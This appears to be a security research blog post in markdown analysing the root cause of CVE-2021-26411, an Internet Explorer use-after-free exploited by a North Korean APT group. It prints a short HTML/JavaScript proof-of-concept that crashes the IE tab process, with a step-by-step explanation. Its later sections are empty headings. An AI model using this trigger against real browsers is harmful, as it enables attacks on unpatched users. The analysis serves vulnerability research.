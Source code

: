 ```yaml
---
layout: post
toc: true
title: "RCA of CVE-2021-26411"
author:
  - iamelli0t
---
```


In January of this year, Google and Microsoft respectively published blogs revealing attacks on security researchers by an APT group in North Korea[1][2]. A vulnerability in Internet Explorer used in this attack was fixed as CVE-2021-26411 in Microsoft's Patch Tuesday this month[3]. The vulnerability is triggered when users of the affected version of Internet Explorer access a malicious link constructed by the attacker, causing remote code execution.

## root casue analysis
The POC that can trigger the vulnerability is shown below:
```html
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
	elem.clearAttributes();
	return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>
```

Execution process of POC:
1. Create 1 HTML Element object (elem) and 2 HTML Attribute objects (attr1 and attr2)
2. Assign a value to the nodeValue of two Attribute objects, where attr1's nodeValue points to an Object that overloads ValueOf
3. Bind two Attribute objects attr1 and attr2 to Element object elem
4. Call elem.removeAttributeNode(attr1) to remove the attribute attr1 object of 'xxx'
5. The removeAttributeNode method triggers a callback to the valueOf function, during which clearAttributes() is called to clear all attribute objects bound by the eLEM object: attr1 and attr2
6. ValueOf callback returns, IE Tab process crashes at null pointer dereference:


## from nullptr dereference to read/write primitive


## some thoughts


## refrences
